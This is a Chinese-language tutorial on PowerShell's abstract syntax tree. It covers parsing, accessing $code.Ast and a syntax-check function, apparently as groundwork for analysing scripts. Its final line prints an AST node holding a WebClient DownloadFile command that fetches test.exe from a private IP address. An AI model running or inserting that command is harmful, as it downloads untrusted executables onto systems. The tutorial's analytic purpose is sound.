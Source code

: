 

## 二.powershell.one

PowerShell 的抽象语法树作为代码的语义表达，以多叉树的形式表示脚本功能的逻辑结构，保留了代码上下文的特征并剔除无关的参数干扰，是分析功能类似的PowerShell代码的有效方法 。常见方法是使用接口或编写自定义程序实现。前文介绍了第一种方法，这篇文章将介绍官方提供的接口。

Windows 为PowerShell提供了访问脚本AST的接口，使用内置接口获取的 AST 结构如图所示。

> 
The Abstract Syntax Tree (AST) groups tokens into meaningful structures and is the most sophisticated way of analyzing PowerShell code.


### 1.概念

PowerShell解析器将单个字符转换为有意义的关键字并区分例如命令、参数和变量，这称为标记化，之前已介绍过。例如，编辑器使用这些标记为代码着色并以与命令不同的颜色显示变量。

解析器并不止于此。为了让PowerShell执行代码，它需要知道各个令牌如何形成可以执行的结构。解析器获取标记并构建一个抽象语法树（AST），它基本上将标记分组为有意义的结构。

抽象语法树之所以称为树，是因为它的工作方式类似于分层树。PowerShell从第一个标记开始，然后采用PowerShell语言定义（语法）来查看下一个可能的标记可能是什么。这样，解析器就可以通过代码工作。

---


### 2.访问AST

从PowerShell 3 开始，抽象语法树向您公开，因此您现在也可以分析PowerShell代码并了解其内部结构。访问 AST 的主要方法有两种：

查看AST的简单示例如下图所示，您可以查看解析器构建的抽象语法树(AST)。

```
$code.Invoke()
$code = { "Hello" * 10 }
$code.Ast

```

输出结果如下图所示：

这可以用来创建一个简单的测试函数来识别PowerShell代码

```
function Test-PowerShellCode
{
    param
    (
        [string]
        $Code
    )

    try
    {
        # try and convert string to scriptblock:
        $null = [ScriptBlock]::Create($Code)
    }
    catch
    {
        # the parser is invoked implicitly and returns
        # syntax errors as exceptions:
        $_.Exception.InnerException.Errors
    }
}

```


[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')